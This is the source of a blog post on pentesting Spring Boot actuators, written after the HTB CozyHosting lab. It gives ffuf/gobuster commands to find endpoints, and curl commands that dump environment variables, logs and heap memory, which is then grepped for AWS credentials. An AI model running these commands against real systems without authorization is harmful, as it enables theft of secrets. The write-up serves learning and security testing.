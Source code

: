 ```yaml
---
layout: post
title:  "SpringBoot Pentesting"
date:   2023-09-07 09:29:20 +0700
tags: [htb,pentesting]
categories: jekyll update
usemathjax: true
---
```


> # SpringBoot Pentesting

I was solving CozyHosting from HTB which had the initial foothold related to SpringBoot, so I’m gonna dive deeper like i always do

Vulnerable Spring application, if you want to test it out while reading the blog

[GitHub - malexmave/blog-spring-actuator-example: An example project with a vulnerable Spring Actuator configuration, as a companion to a blog post](https://github.com/malexmave/blog-spring-actuator-example)

This github  repository is associated with the blog linked down below

[Spring Actuator Security, Part 1: Stealing Secrets Using Spring Actuators](https://blog.maass.xyz/spring-actuator-security-part-1-stealing-secrets-using-spring-actuators)

## What is Spring Boot?

Spring Boot is a powerful and versatile framework that simplifies the development of web applications. Its simplicity, versatility, and active community make it a popular choice among developers.

### Spring **≠ Spring Boot**

| Spring | Spring Boot |
| --- | --- |
| Spring is a popular Java-based framework used for building web applications. | Spring Boot is a framework built on top of Spring. |
| Spring provides a wide range of features and tools for building web applications | Spring Boot simplifies the development process by eliminating the need for developers to write boilerplate code. |

## The story of Actuator.

Spring Boot includes a number of additional features called [actuators](https://docs.spring.io/spring-boot/docs/current/reference/html/production-ready-features.html) to help monitor and control an application when it is pushed to production. Actuators allow controling and monitoring an application using either HTTP or JMX endpoints.

They can be quite helpful in debugging or monitoring a Spring application, but if you expose them too widely, things can get dangerous very quickly.

Spring provides a **[list of all actuators](https://docs.spring.io/spring-boot/docs/2.5.6/reference/html/actuator.html#actuator.endpoints)** that are present by default and can be enabled.

The built-in endpoints will only be auto-configured when they are available. Most applications choose exposure via HTTP, where the ID of the endpoint along with a prefix of /actuator is mapped to a URL. For example, by default, the health endpoint is mapped to /actuator/health




> ### Fuzzing Actuators

```jsx
ffuf -w ~/Desktop/tools/SecLists/Discovery/Web-Content/raft-large-files-lowercase.txt  -u http://10.10.11.224:55555/FUZZ

gobuster dir -w ~/wordlist/KaliLists/dirbuster/directory-list-2.3-medium.txt --url http://cozyhosting.htb/

```

Scanning pages simultaneously 

```jsx
$ cat domains.txt
domain.com
sub1.domain.com
sub2.domain.com
[... etc ...]

$ ffuf -w endpoints.txt:PATH -w domains.txt:DOMAIN -u http://DOMAIN/PATH
```

More about the way this could be automated and easier to understand is linked in the blog below. 

[Spring Actuator Security, Part 3: Finding Exposed Actuators using Dynamic Testing with ffuf](https://blog.maass.xyz/spring-actuator-security-part-3-finding-exposed-actuators-using-dynamic-testing-with-ffuf?source=more_series_bottom_blogs)

## Finding Actuators ( Manually )

[Spring Actuator Security, Part 2: Finding Actuators using Static Code Analysis with semgrep](https://blog.maass.xyz/spring-actuator-security-part-2-finding-actuators-using-static-code-analysis-with-semgrep?source=more_series_bottom_blogs)

> ## Exploiting Actuators

### Looking for Secrets

```jsx

curl localhost:8081/actuator/env | jq .

// ... lots of stuff
"DB_CONN": {
    "value": "psql://server/db",
    "origin": "System Environment Property \"DB_CONN\""
},
// ... lots of stuff
```

### Reading logs

```jsx
curl localhost:8081/actuator/logfile

2022-08-24 13:45:14.813  INFO 68465 --- [http-nio-8081-exec-2] com.example.demo.DemoApplication         : Entering hello world function...
2022-08-24 13:45:14.814  INFO 68465 --- [http-nio-8081-exec-2] com.example.demo.DemoApplication         : Dumping AWS credentials for debugging purposes: Key: AKIATESTTEST Token: TESTingSecretAccessTest
```

### Dumping the dump ( Heapdump)

```jsx
curl localhost:8081/actuator/heapdump -o heap.bin
```

This endpoint does exactly what it sounds like - it takes a copy of the Java heap (i.e., the memory of the application) and provides it to me as a large blob of binary data.

Now you can just use ``` strings heap.bin | grep -C 20 AWS ```

This does not even touch the surface of SpringBoot exploitation, I have linked better and more indepth blog about this by pros.

More about Exploiting Actuators

[Spring Actuator Security, Part 1: Stealing Secrets Using Spring Actuators](https://blog.maass.xyz/spring-actuator-security-part-1-stealing-secrets-using-spring-actuators)

[Exploiting Spring Boot Actuators - Veracode](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators)

### References

[SPRING BOOT PENTESTING PART 1- FUNDAMENTALS](https://blog.certcube.com/spring-boot-pentesting-fundamentals-part-1/)

[SPRING BOOT PENTESTING PART 2- ACTUATORS](https://blog.certcube.com/spring-boot-pentesting-part-2-actuators/)

[Spring Boot Actuators](https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators)

[Spring Actuators](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)

## Have any questions
Do you have any questions? Feel free to reach out to me on [twitter](https://twitter.com/rach1tarora) or on [LinkedIn](https://www.linkedin.com/in/rach1tarora/).
